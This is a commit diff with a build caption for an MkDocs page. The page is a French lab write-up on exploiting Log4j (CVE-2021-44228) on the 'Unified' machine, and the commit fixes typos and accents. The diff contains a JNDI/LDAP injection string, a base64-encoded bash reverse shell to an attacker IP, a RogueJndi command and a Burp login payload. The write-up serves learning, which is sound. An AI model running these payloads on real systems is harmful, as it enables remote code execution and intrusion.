

Before and after one commit to rnek0/lunarDocs, an MkDocs documentation site: the page built from docs/tiers2/unified.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
relecture Unified & correction accents

````diff
--- a/docs/tiers2/unified.md
+++ b/docs/tiers2/unified.md
@@ -2,11 +2,11 @@
 
 Notes sur la machine Unified.
 
-Cette machine est intéressante vu que Log4j a supris tout le monde, étant donné que c'est une faille qui est la depuis un bon moment et elle n'a été decouverte que recemment.  Elle a même permis de prendre conscience sur le fait qu'un seul developpeur à la charge d'un projet et qui fait ce code de façon benevole pouvait être à la base d'une faille de grosse ampleur.
+Cette machine est intéressante vu que Log4j a surpris tout le monde, étant donné que c'est une faille qui est la depuis un bon moment et elle n'a été découverte que récemment.  Elle a même permis de prendre conscience sur le fait qu'un seul développeur à la charge d'un projet et qui fait ce code de façon bénévole pouvait être à la base d'une faille de grosse ampleur. [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
 
 ## On teste la vulnerabilité
 
-On se sert du champ remember avec le repeater de burpsuite pour y introduire un appel ldap, on est à l'écoute avec tcpdump
+On se sert du champ 'remember' avec le 'repeater de burpsuite' pour y introduire un appel ldap, on est à l'écoute avec tcpdump
 
 ${jndi:ldap://10.10.14.19/whatever}
 
@@ -21,7 +21,7 @@ tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 
 ## On construit l'application java rogue-jndi avec maven
 
-Ici j'ai eu un doute sur la version de java mais cela marche quand même avec la version 17 de Parrot. De toutes façons si tu desinstalles la 17 t'as plus le burpsuite.
+Ici j'ai eu un doute sur la version de java mais cela marche quand même avec la version 17 de Parrot. De toutes façons si tu désinstalles la 17 t'as plus le Burpsuite.
 
 ```bash
 git clone https://github.com/veracode-research/rogue-jndi
@@ -42,7 +42,7 @@ YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==
 
 Un reverse shell classique.
 
-On va donc executer RogueJndi-1.1.jar et on va lui passer le payload dans le paramettre --command et on va mettre le --hostname avec nôtre tun0
+On va donc exécuter RogueJndi-1.1.jar et on va lui passer le payload dans le paramètre --command et on va mettre le --hostname avec nôtre tun0
 
 ```bash
 ❯ java -jar ./RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.19"
@@ -62,7 +62,7 @@ Mapping ldap://10.10.14.19:1389/o=groovy to artsploit.controllers.Groovy
 Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
 ```
 
-On va sur BurpSuite et on send dans le repeater avec :
+On va sur Burpsuite et on send dans le 'repeater' avec :
 
 ```bash
 {"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.14.19:1389/o=tomcat}","strict":true}
````
Also changed, not shown: other parts of docs/tiers2/unified.md (+3 -1 lines).
